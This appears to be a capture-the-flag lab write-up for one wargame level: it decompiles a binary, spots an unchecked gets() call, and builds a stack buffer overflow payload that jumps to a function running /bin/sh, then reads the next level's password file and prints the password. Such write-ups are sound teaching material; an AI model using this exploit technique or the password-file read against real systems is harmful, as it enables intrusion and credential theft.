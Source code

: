 get the binary on host
* `scp -P 4242 level1@192.168.56.107:./level1 ./binary/level1`

decompile using ghidra\
main fonction is
```
	void main(void)
	{
		undefined local_50 [76];
		
		gets(local_50);
		return;
	}
```
and this fonction exist too 
```
	void run(void)

	{
		fwrite("Good... Wait what?\n",1,0x13,stdout);
		system("/bin/sh");
		return;
	}
```

we can use a buffer overflow to call this function
```
(gdb) disas run
	Dump of assembler code for function run:
		0x08048444 <+0>:     push   %ebp
		0x08048445 <+1>:     mov    %esp,%ebp
		0x08048447 <+3>:     sub    $0x18,%esp
		0x0804844a <+6>:     mov    0x80497c0,%eax
		0x0804844f <+11>:    mov    %eax,%edx
		0x08048451 <+13>:    mov    $0x8048570,%eax
		0x08048456 <+18>:    mov    %edx,0xc(%esp)
		0x0804845a <+22>:    movl   $0x13,0x8(%esp)
		0x08048462 <+30>:    movl   $0x1,0x4(%esp)
		0x0804846a <+38>:    mov    %eax,(%esp)
		0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
		0x08048472 <+46>:    movl   $0x8048584,(%esp)
		0x08048479 <+53>:    call   0x8048360 <system@plt>
		0x0804847e <+58>:    leave  
		0x0804847f <+59>:    ret    
	End of assembler dump.
```
`call system("/bin/sh") addr` => 0x08048444\
Using our 76 char array + thoose address we can lauch a new shell.\
This array is `76 char` + `addr run`
* `python -c 'print "a"* 76 + "\x44\x84\x04\x08"' > /tmp/exploit_1; cat /tmp/exploit_1 - | ./level1`

\
We can input our cat
* `cat /home/user/level2/.pass`

and get the pass `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
